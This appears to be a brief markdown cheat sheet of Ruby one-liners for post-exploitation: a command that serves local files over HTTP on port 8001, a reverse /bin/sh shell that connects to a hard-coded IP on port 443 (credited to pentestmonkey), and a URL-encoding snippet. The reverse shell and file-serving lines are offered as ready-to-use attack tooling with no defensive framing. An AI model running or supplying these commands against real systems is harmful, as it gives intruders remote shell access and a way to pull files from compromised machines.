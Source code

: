 # Ruby Command and Scripts for Post Exploitation

One liners
-----------

**Start a web server that serves the local files from current directory on port 8001**
```ruby 
ruby -run -e httpd -- -p 8001 .```

**Reverse /bin/sh shell on port 443 from [pentestmonkey.net](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)**
```ruby 
ruby -rsocket -e'f=TCPSocket.open("192.168.2.5",443).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'```

***URL Encode***
```ruby
ruby -e 'require "open-uri"; result = URI.escape(YOUR STRING HERE, Regexp.new("[^#{URI::PATTERN::UNRESERVED}]"))'```



